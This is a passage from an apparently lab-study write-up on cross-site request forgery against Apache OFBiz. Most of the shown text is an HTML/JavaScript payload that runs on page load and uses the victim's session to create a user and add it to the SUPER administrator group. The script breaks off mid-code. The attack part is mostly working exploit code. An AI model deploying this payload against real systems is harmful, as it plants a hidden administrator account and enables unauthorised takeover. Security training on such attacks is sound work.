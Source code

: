 <figure><img src="../../../.gitbook/assets/offsec_ofbiz_5.png" alt=""><figcaption><p>Figure 9: Creating a new user and adding them to the <code>SUPER</code> group.</p></figcaption></figure>

Instead of using two forms, we can make requests directly without navigating the browser away from the payload page. In brief, what the below payload does, is creating two functions, one for each `POST` request, where it includes the privilege escalation request within the user creation request to make sure that the execution order is correct. Finally, it explicitly calls the first function at the end, so it is auto-called on page load.

{% code title="ofbiz3.html" overflow="wrap" %}
```html
<html>
<head>
<script>
  var username = "csrftestv2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";

  function send_create() { 
    console.log("Creating user..."); 
    fetch(host+create_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body : create_params }
      ).then(function(response) {
        send_admin();
	});
  }

  function send_admin() { 
    console.log("Adding admin role..."); 
    fetch(host+admin_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body : admin_params }
      ).then(console.log("Should be done..."));
```